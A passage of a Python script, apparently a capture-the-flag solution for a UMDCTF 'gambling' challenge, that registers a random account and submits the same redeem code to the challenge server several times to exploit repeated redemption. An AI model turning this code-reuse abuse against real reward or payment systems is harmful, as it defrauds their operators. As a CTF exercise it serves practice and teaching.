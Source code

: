 ```python
        "content-type": "application/x-www-form-urlencoded",
    }
    return await send_request(url, "POST", content=request_content, headers=request_headers, debug=debug)

async def register(url: str, debug: bool = False):
    username = "winky" + str(random.randint(0, 100000))
    password = "haha" + str(random.randint(0, 100000))
    body = b'{"username":"uwu","password":"pwp"}'
    body = body.replace(b'uwu', username.encode())
    body = body.replace(b'pwp', password.encode())
    headers = {
        "content-length": str(len(body)),
        "content-type": "application/json",
    }
    data, headers = await send_request(url + "register", "POST", content=body, headers=headers)
    return username, password, data, headers

async def redeem(username, password, url: str, debug: bool=False):
    code = b'"eW91IHRoaW5rIHlvdSdyZSBzcGVjaWFsIGJlY2F1c2UgeW91IGtub3cgaG93IHRvIGRlY29kZSBiYXNlNjQ/"'
    body = code
    auth = '{"username":"uwu","password":"pwp"}'
    auth = auth.replace('uwu', username)
    auth = auth.replace('pwp', password)
    headers = {
        'authorization': auth,
        "content-length": str(len(body)),
        "content-type": "application/json",
    }
    resp, resp_headers = await send_request(url + "redeem", "POST", content=body, headers=headers)
    return resp, resp_headers

async def main():
    url = "https://gambling.challs.umdctf.io/"
    global counter

    username, password, data, headers = await register(url)
    print(f"Username: {username}")
    print(f"Password: {password}")
    print(f"Headers: {headers}")
    print(f"Data: {data.decode()}")
    data, headers = await redeem(username, password, url)
    counter+=1
    print(f"Headers: {headers}")
    print(f"Data: {data.decode()}")
    data, headers = await redeem(username, password, url)
    counter+=1
    print(f"Headers: {headers}")
    print(f"Data: {data.decode()}")
    data, headers = await redeem(username, password, url)
    print(f"Headers: {headers}")
    print(f"Data: {data.decode()}")


if __name__ == "__main__":
    asyncio.run(main())
```

